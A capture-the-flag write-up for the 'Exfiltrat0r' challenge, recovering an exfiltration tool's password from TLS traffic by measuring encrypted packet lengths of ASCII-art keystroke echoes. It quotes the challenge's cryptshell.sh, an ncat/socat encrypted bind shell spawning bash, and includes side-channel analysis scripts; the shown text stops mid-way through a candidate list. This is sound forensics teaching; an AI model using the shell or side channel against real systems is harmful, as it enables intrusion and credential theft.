








# Exfiltrat0r


```
Exfiltrat0r
Additional analysis of the victim network allowed us to recover some PROTECTIVE PENGUIN tooling that appears to provide remote shell and data exfiltration capabilities.
While we were able to capture some network traffic of these tools in action, all communications are encrypted.
We have wrapped all relevant information into a TAR archive.
(https://adversaryquest-static.s3.amazonaws.com/Wrerennodyemdayp/exfiltrat0r.tar.gz)

Are you able to identify any weaknesses that would allow us to recover the encryption key and figure out what data was exfiltrated?
```

Contents
---

1. [Task intro](#a_part1)
2. [Where to start?](#a_part2)
3. [Key recovery on test data](#a_part3)
4. [Key recovery on challenge data](#a_part4)
5. [Decrypting the exfiltrated data](#a_part5)

---

## 1.<span id="a_part1"/> Task intro

```bash
$ tar xvf exfiltrat0r.tar.gz 
cryptshell.sh
exfil.py
trace.pcapng

$ file *
cryptshell.sh: POSIX shell script, ASCII text executable
exfil.py:      Python script, ASCII text executable, with very long lines
trace.pcapng:  pcapng capture file - version 1.0

$ cat cryptshell.sh 
#!/bin/sh

listen() {
    exec ncat -lvk4 $1 $2 --ssl -c 'python3 -c "import pty;pty.spawn(\"/bin/bash\")"'
}

connect() {
    exec socat -,raw,echo=0 SSL:$1:$2,verify=0
    #exec socat - SSL:$1:$2,verify=0
}

if [ $# -eq 3 ] && [ $1 = "listen" ] ; then
    listen $2 $3
fi

if [ $# -eq 3 ] && [ $1 = "connect" ] ; then
    connect $2 $3
fi


```

To get a feel of what the `exfil.py` script does, here it is in action:

[](https://asciinema.org/a/fz66uyLqi0yIaeDT6Rr4G9ojJ)

And the pcapng file contains the following conversations:



So `192.168.122.1` (the attacker) connected to `192.168.122.251` (the victim) on port 31337 at 18:14:00 and stayed there about 26.57 seconds. And around the end, 3 back-connections were made on port 1234. Those last 3 connections are fully encrypted but the first one is a TLS connection indicative of `cryptshell.sh`

So we could infer that the scenario is the following:

 - the attacker compromised the victim machine through an unknown initial vector
 - the attacker placed `cryptshell.sh` on the victim machine and started it using `/cryptshell.sh listen 0.0.0.0 31337`
 - the attacker connected using `./cryptshell.sh connect 192.168.122.251 31337` and maybe placed `exfil.py` there among other things
 - after 26 seconds, the attacker ran `efxil.py` with 3 files as arguments, leading to those 3 TCP streams
 

## 2.<span id="a_part2"/> Where to start?

Having 4 encrypted conversations doesn't inspire too much confidence. In fact, for the experienced CTF player, this screams "side-channel" at you. Of course, the proper way is to first investigate the usual suspects. Whether:
- the encryption algorithm for the three files is weak. It isn't: `self.cipher = ChaCha20_Poly1305.new(key=self.derived_key)`
- the key is weak/weakened/derived improperly/bruteforce-able. It isn't: `self.key_salt = get_random_bytes(16); self.derived_key = scrypt(self.key, self.key_salt, 32, 2**14, 8, 1)`
- the keystream is reused and we know one of the plaintexts
- the keystream is repeated after a certain size. It isn't.

Let's also see what cipher was negotiated in the TLS conversation. Maybe it's something "export-grade" and we're in luck. The way the negotiation works is:
 - the client sends a Client Hello with a list of ciphers
 - the server sends a Server Hello with its pick among them



Ouch, TLS 1.3, AES-256, GCM, SHA 384. That sounds pretty bad, right? Well, there's one parameter out of those that should give us some relief: GCM. While the usual modes of operation such as ECB/CBC/whathaveyou encrypt in 16-byte block multiples, GCM (and counter mode in general) is more amenable to side-channel attacks as we can infer the exact size of the underlying packet.

Now let's turn our attention to the big picture in this TLS TCP stream. What does it "look like"? What can we attack? IO Graph from Wireshark provides an idea:



Time to review the above asciinema recording and see where everything would fit. The huge spike in traffic between 18:14:12 and 18:14:13 is likely due to the ASCII-art banner. And the next 13 peaks should correspond to 13 keystrokes when the password was entered. Can we confirm this?


## 3.<span id="a_part3"/> Key recovery on test data


We will try to replicate the traffic as close as possible to the original traffic but with added instrumentation that allows us to deeper understand what is going on. As such, I suggest we:
 - use the same cipher combination: AES256-GCM-SHA384
 - use a fixed password: "1234"
 - log the TLS secrets in a form usable by wireshark in order to see the exact contents of those spikes


The modified `cryptshell.sh` follows:

```bash
#!/bin/sh

listen() {
    export SSLKEYLOGFILE=premaster.txt
    export LD_PRELOAD=./libsslkeylog.so
    exec ncat -lvvvvvvk4 $1 $2 --ssl --ssl-ciphers=ECDHE-ECDSA-AES256-GCM-SHA384 -c 'python3 -c "import pty;pty.spawn(\"/bin/bash\")"'
}

connect() {
    exec socat -,raw,echo=0 SSL:$1:$2,verify=0
    #exec socat - SSL:$1:$2,verify=0
}

if [ $# -eq 3 ] && [ $1 = "listen" ] ; then
    listen $2 $3
fi

if [ $# -eq 3 ] && [ $1 = "connect" ] ; then
    connect $2 $3
fi
```

The sslkeylog library source code can be found at https://git.lekensteyn.nl/peter/wireshark-notes/tree/src/sslkeylog.c

With that setup, it's time to see what we got:

```
$ python3.8 ./exfil.py 127.0.0.1 1235 exfil.py
   ____         ___   _    __  __               __   ___                     ___    ____
  / __/ __ __  / _/  (_)  / / / /_  ____ ___ _ / /_ / _ \  ____      _  __  |_  |  |_  /
 / _/   \ \ / / _/  / /  / / / __/ / __// _ `// __// // / / __/     | |/ / / __/  _/_ < 
/___/  /_\_\ /_/   /_/  /_/  \__/ /_/   \_,_/ \__/ \___/ /_/        |___/ /____/ /____/ 
                                                                                        
                                                                                     
 ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ ____
/___//___//___//___//___//___//___//___//___//___//___//___//___//___//___//___//___/
                                                                                     
                                                                                     
   ____        __                    __                 _ 
  / __/  ___  / /_ ___   ____       / /__ ___   __ __  (_)
 / _/   / _ \/ __// -_) / __/      /  '_// -_) / // / _   
/___/  /_//_/\__/ \__/ /_/        /_/\_\ \__/  \_, / (_)  
                                              /___/       
  ___   ___    ____  ____
 <  /  |_  |  |_  / / / /
 / /  / __/  _/_ < /_  _/
/_/  /____/ /____/  /_/  
                         
Transfer complete: CryptMsg<key: '1234', filename: 'exfil.py', host: '127.0.0.1', port: 1235, finished: True>

```
This is what it looked like in the console. Now for the IO Graph again.



Pretty similar. Notice how the spikes increase in size each time. This should correspond to printing out:
 - "1"
 - clear_previous + "12"
 - clear_previous + "123"
 - clear_previous + "1234"

Plugging the `premaster.txt` file into wireshark we also get the decrypted contents and a clearer picture of the traffic, validating our assumptions:



So, the side-channel that we hope to use is that each letter has a different length and the combination of them along with the spaces needed between them to render correctly will produce fewer candidates (than simply bruteforcing).


### Exporting the data

To process the data, we need to export it in the most usable format available. Even though not ideal, I found this to be the "C arrays" variant of output.



We save this to `decrypted_stream.h` as it's intended to be used as a C header. Now we're going to do something horrible and convert the C header to Python code with a clever one-liner:

```bash
$ cat decrypted_stream.h  | sed -re 's@char @@g' | sed -re 's@_([^\[\]*)\[\]@\[\1\]@g' | tr "/" "#" | tr "{}" "[]" | sed -re 's@(pe[^[]*)@turns.append("\1");\n\1@g' > decrypted_stream.py

$ head -n 20 decrypted_stream.py 
turns.append("peer0");
peer0[0] = [ #* Packet 14 *#
0x1b, 0x5b, 0x3f, 0x32, 0x30, 0x30, 0x34, 0x68, 
0x1b, 0x5d, 0x30, 0x3b, 0x75, 0x73, 0x65, 0x72, 
0x31, 0x40, 0x64, 0x65, 0x62, 0x69, 0x61, 0x6e, 
0x3a, 0x20, 0x2f, 0x63, 0x74, 0x66, 0x2f, 0x65, 
0x76, 0x65, 0x6e, 0x74, 0x73, 0x2f, 0x32, 0x30, 
0x32, 0x31, 0x2f, 0x30, 0x31, 0x2f, 0x43, 0x53, 
0x43, 0x54, 0x46, 0x2f, 0x65, 0x66, 0x69, 0x6c, 
0x2f, 0x77, 0x72, 0x69, 0x74, 0x65, 0x75, 0x70, 
0x07, 0x1b, 0x5b, 0x30, 0x31, 0x3b, 0x33, 0x32, 
0x6d, 0x75, 0x73, 0x65, 0x72, 0x31, 0x40, 0x64, 
0x65, 0x62, 0x69, 0x61, 0x6e, 0x1b, 0x5b, 0x30, 
0x30, 0x6d, 0x20, 0x3a, 0x20, 0x1b, 0x5b, 0x30, 
0x31, 0x3b, 0x33, 0x34, 0x6d, 0x1b, 0x5b, 0x30, 
0x30, 0x6d, 0x20, 0x24, 0x20 ];
turns.append("peer1");
peer1[0] = [ #* Packet 16 *#
0x2e ];
turns.append("peer0");

$ tail -n 20 decrypted_stream.py 
0x20, 0x31, 0x32, 0x33, 0x35, 0x2c, 0x20, 0x66, 
0x69, 0x6e, 0x69, 0x73, 0x68, 0x65, 0x64, 0x3a, 
0x20, 0x54, 0x72, 0x75, 0x65, 0x3e, 0x1b, 0x5b, 
0x30, 0x6d, 0x0d, 0x0a ];
turns.append("peer0");
peer0[749] = [ #* Packet 1600 *#
0x1b, 0x5b, 0x3f, 0x32, 0x30, 0x30, 0x34, 0x68, 
0x1b, 0x5d, 0x30, 0x3b, 0x75, 0x73, 0x65, 0x72, 
0x31, 0x40, 0x64, 0x65, 0x62, 0x69, 0x61, 0x6e, 
0x3a, 0x20, 0x2f, 0x63, 0x74, 0x66, 0x2f, 0x65, 
0x76, 0x65, 0x6e, 0x74, 0x73, 0x2f, 0x32, 0x30, 
0x32, 0x31, 0x2f, 0x30, 0x31, 0x2f, 0x43, 0x53, 
0x43, 0x54, 0x46, 0x2f, 0x65, 0x66, 0x69, 0x6c, 
0x2f, 0x77, 0x72, 0x69, 0x74, 0x65, 0x75, 0x70, 
0x07, 0x1b, 0x5b, 0x30, 0x31, 0x3b, 0x33, 0x32, 
0x6d, 0x75, 0x73, 0x65, 0x72, 0x31, 0x40, 0x64, 
0x65, 0x62, 0x69, 0x61, 0x6e, 0x1b, 0x5b, 0x30, 
0x30, 0x6d, 0x20, 0x3a, 0x20, 0x1b, 0x5b, 0x30, 
0x31, 0x3b, 0x33, 0x34, 0x6d, 0x1b, 0x5b, 0x30, 
0x30, 0x6d, 0x20, 0x24, 0x20 ];
```

Horrible, I know... but it worked at the time. As always, if you have a better method, let me know.

### Producing the side-channel input data

Now we have the list of turns, which will allow us to filter out when the banner is first sent, and when each of the keys are sent and how big the response is.


First we filter out the long string of packets that is the ascii-art banner:

```python
peer0 = [None]*10000
peer1 = [None]*10000
turns = []


exec(open(sys.argv[1],"rt").read())


#if one peer sends a long string of packets, that should be the ascii-art banner
def find_long_string():
        last = None
        current = 1
        for idx, elem in enumerate(turns):
                if elem == last:
                        current += 1
                else:
                        print("Peer [%s] sent a string of %d packets" % (last, current))
                        if current > 600:
                                return idx
                        last = elem
                        current = 1
```

Now we know immediately after the banner, the exchange will consist of:
 - a packet having the keystroke
 - one or more packets having the asciiart
 
Here's the code that gets the length of each output after the keystroke. While I know this isn't the prettiest code, as it was written during the CTF (the appropriate term is CTF-grade code) it got the job done and allowed me to take the lead and finish first...

```python

def get_lenturns():
	turns_with_len = []
	peer0_idx = 0
	peer1_idx = 0
	for i in turns:
		if i == "peer0":
			cur = peer0[peer0_idx]
			peer0_idx += 1
			turns_with_len.append( len(cur) )
		else:
			cur = peer1[peer1_idx]
			peer1_idx += 1
			turns_with_len.append( len(cur) )
	return turns_with_len


lenturns = get_lenturns()
key_start = find_long_string()

increasings = [0]
target_peer = turns[key_start-1]
i = key_start


while True:
	cur_peer = turns[i]
	cur_len = lenturns[i]
	while i+1 < len(turns) and turns[i+1] == cur_peer:
		cur_len += lenturns[i+1]
		i+= 1

	if cur_peer != target_peer:
		assert cur_len in [1, 2], cur_len
		print("Keystroke sent, packet of size (%s)" % cur_len)
	else:
		print("%s => %s" % (cur_peer, cur_len) )

		if cur_len > increasings[-1]:
			increasings.append(cur_len)

	i += 1
	if i == len(turns):
		break

print(increasings[1:])
```

Output:

```
...
Peer [peer1] sent a string of 1 packets
Peer [peer0] sent a string of 1 packets
Peer [peer1] sent a string of 1 packets
Peer [peer0] sent a string of 1 packets
Peer [peer1] sent a string of 1 packets
Peer [peer0] sent a string of 1 packets
Peer [peer1] sent a string of 1 packets
Peer [peer0] sent a string of 1 packets
Peer [peer1] sent a string of 1 packets
Peer [peer0] sent a string of 687 packets
Keystroke sent, packet of size (1)
peer0 => 155
Keystroke sent, packet of size (1)
peer0 => 449
Keystroke sent, packet of size (1)
peer0 => 780
Keystroke sent, packet of size (1)
peer0 => 1086
Keystroke sent, packet of size (1)
peer0 => 233
[155, 449, 780, 1086]
```

So, the outputs "1", "12", "123", "1234" correspond to 155, 449, 780, 1086. This the input we will be using, along with the code in `exfil.py` to obtain the password back.

### Getting password candidates

Since we have to `exfil.py` code for the AsciiSequence class we can reuse it with ease. Here is the code that's needed to get the output length:

```python
def get_length_of_string(z):
        sequence = AsciiSequence()
        fin = ""
        l = ""
        for i in range( len(z) ):
                sequence.add_char(z[i])
                sequence.render()
                if i != len(z) -1:
                        l = sequence.clear()
        fin += l
        fin += sequence.render()
        fin = fin.replace("\x0a", "\x0d\x0a") #based on wireshark data, probably socat interfering
        return len(fin)


def augment_candidate_list(candidates, seq):
        charset = "abcdefhijklmnopqrstuvwxyz0123456789`!@#$%^&*()_+"
        output = []
        for prefix in candidates:
                cur_idx = len(prefix)
                target_len = seq[cur_idx]
                for i in charset:
                        cur_str = prefix + i
                        if get_length_of_string(cur_str) == target_len:
                                print("candidate: [%s]" % cur_str)
                                output.append(cur_str)
        return output


seq = [155, 449, 780, 1086]
candidates = [""]

for i in range( len(seq) ):
        print("length %d" % i)
        candidates = augment_candidate_list(candidates, seq)

```

And the output is:

```
$ python3.8 seq.py 
length 0
candidate: [l]
candidate: [1]
length 1
candidate: [l2]
candidate: [l+]
candidate: [12]
candidate: [1+]
length 2
candidate: [l2k]
candidate: [l23]
candidate: [l+k]
candidate: [l+3]
candidate: [12k]
candidate: [123]
candidate: [1+k]
candidate: [1+3]
length 3
candidate: [l2k4]
candidate: [l2k(]
candidate: [l234]
candidate: [l23(]
candidate: [l+k4]
candidate: [l+k(]
candidate: [l+34]
candidate: [l+3(]
candidate: [12k4]
candidate: [12k(]
candidate: [1234]
candidate: [123(]
candidate: [1+k4]
candidate: [1+k(]
candidate: [1+34]
candidate: [1+3(]
```

### Accounting for encrypted payloads

Of course, if you've been following, you'll know that the analysis so far has been based on the `decrypted_stream.h` output from wireshark. But we don't have that for the challenge data. So let's add another layer that accounts for that. Once again we turn to wireshark to see what the data looks like:




As we said initially, the GCM mode of operation means that the encrypted payload has the same length as the decrypted/original payload. So why are there 23 bytes instead of just 1 byte for each keystroke packet? Precisely because of GCM which also provides a method of authenticating the data resulting in a 22 byte increase of each TLS packet. This can be patched up real quick to work with both type of payloads:

```diff
--- core.py	2021-01-26 21:12:06.051682849 +0200
+++ core_old.py	2021-01-26 21:11:54.163674160 +0200
@@ -50,16 +50,19 @@
 target_peer = turns[key_start-1]
 i = key_start
 
-
+is_encrypted_delta = 0
 
 while True:
 	cur_peer = turns[i]
-	cur_len = lenturns[i]
+	cur_len = lenturns[i] - is_encrypted_delta
 	while i+1 < len(turns) and turns[i+1] == cur_peer:
-		cur_len += lenturns[i+1]
+		cur_len += lenturns[i+1] - is_encrypted_delta
 		i+= 1
 
 	if cur_peer != target_peer:
+		if cur_len not in [1, 2]:
+			is_encrypted_delta = 22
+			cur_len -= is_encrypted_delta
 		assert cur_len in [1, 2], cur_len
 		print("Keystroke sent, packet of size (%s)" % cur_len)
 	else:
```


## 4.<span id="a_part4"/> Key recovery on challenge data

Now it's time to see if the script also works on the actual challenge input. This is the output after following the same steps as above:

```
...
Peer [peer1] sent a string of 688 packets
Keystroke sent, packet of size (1)
peer1 => 177
Keystroke sent, packet of size (1)
peer1 => 555
Keystroke sent, packet of size (1)
peer1 => 800
Keystroke sent, packet of size (1)
peer1 => 1033
Keystroke sent, packet of size (1)
peer1 => 1324
Keystroke sent, packet of size (1)
peer1 => 1601
Keystroke sent, packet of size (1)
peer1 => 1831
Keystroke sent, packet of size (1)
peer1 => 2142
Keystroke sent, packet of size (1)
peer1 => 2439
Keystroke sent, packet of size (1)
peer1 => 2644
Keystroke sent, packet of size (1)
peer1 => 2935
Keystroke sent, packet of size (1)
peer1 => 3266
Keystroke sent, packet of size (1)
peer1 => 3629
Keystroke sent, packet of size (1)
peer1 => 485
Keystroke sent, packet of size (1)
peer1 => 8
Keystroke sent, packet of size (2)
[177, 555, 800, 1033, 1324, 1601, 1831, 2142, 2439, 2644, 2935, 3266, 3629]


$ python3.8 seq.py 
length 0
candidate: [m]
length 1
candidate: [my]
length 2
candidate: [my_]
length 3
candidate: [my_s]
length 4
candidate: [my_sk]
candidate: [my_s3]
length 5
candidate: [my_skc]
candidate: [my_s3c]
length 6
candidate: [my_skcr]
candidate: [my_s3cr]
length 7
candidate: [my_skcrk]
candidate: [my_skcr3]
candidate: [my_s3crk]
candidate: [my_s3cr3]
...
length 12
candidate: [my_skcrkt_kky]
candidate: [my_skcrkt_k3y]
candidate: [my_skcrkt_3ky]
candidate: [my_skcrkt_33y]
candidate: [my_skcrk7_kky]
candidate: [my_skcrk7_k3y]
candidate: [my_skcrk7_3ky]
candidate: [my_skcrk7_33y]
candidate: [my_skcr3t_kky]
candidate: [my_skcr3t_k3y]
candidate: [my_skcr3t_3ky]
candidate: [my_skcr3t_33y]
candidate: [my_skcr37_kky]
candidate: [my_skcr37_k3y]
candidate: [my_skcr37_3ky]
candidate: [my_skcr37_33y]
candidate: [my_s3crkt_kky]
candidate: [my_s3crkt_k3y]
candidate: [my_s3crkt_3ky]
candidate: [my_s3crkt_33y]
candidate: [my_s3crk7_kky]
